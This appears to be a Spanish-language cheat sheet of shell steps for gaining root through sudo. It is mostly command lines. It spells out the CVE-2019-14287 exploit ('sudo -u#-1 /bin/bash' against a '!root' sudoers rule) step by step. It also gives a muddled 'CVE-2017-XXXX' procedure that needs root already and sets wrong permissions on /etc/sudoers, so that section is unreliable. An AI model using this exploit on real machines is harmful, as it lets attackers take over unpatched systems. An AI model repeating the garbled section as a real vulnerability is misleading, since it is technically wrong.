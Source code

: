 # sudo

# CVE-2017-XXXX hackingyseguridad
#1.- Para editar el fichero sudiers sin problemas 
$chmod 777 /etc/sudoers    
#2.- Añadidmos en la linea sudo de /etc/group a antonio
sudo vim /etc/group
sudo:x:27:antonio
forzamos la escritura en group al salir con :wq!
#3.- Restablecemos los privilegios del fichero sudoers con 
$chmod 755 /etc/sudoers
#4.- Explotamos 
$sudo antonio
$sudo su
#whoami
#5.- ya somos root!


# CVE-2019-14287 VULNERABILIDAD SUDO VERSIONES < 1.8.28 
#0.- Comprovamos la version de sudo instalada con: 
$sudo -V
#1.- Editamos el fichero /etc/sudoers con $sudo visudo 
#2.- Añadimos la linea con el usuario antonio 
#User privilege specification
root ALL=(ALL:ALL) ALL
%admin ALL=(ALL) ALL
antonio ALL=(ALL) /usr/bin/id
#3.- Ejecutamos: 
$su antonio
$sudo id
$sudo whoani
$sudo -u antonio id
#4.- Volvemos a editar el fichero /etc/sudoers con $sudo visudo
#5.- Modificamos la linea
antonio ALL=(ALL, !root) ALL
#6.- Explotamos la vulnerabilidad con sudo -u#-1
$sudo -u#-1 /bin/bash
#whoami
#7.- ya somos root!
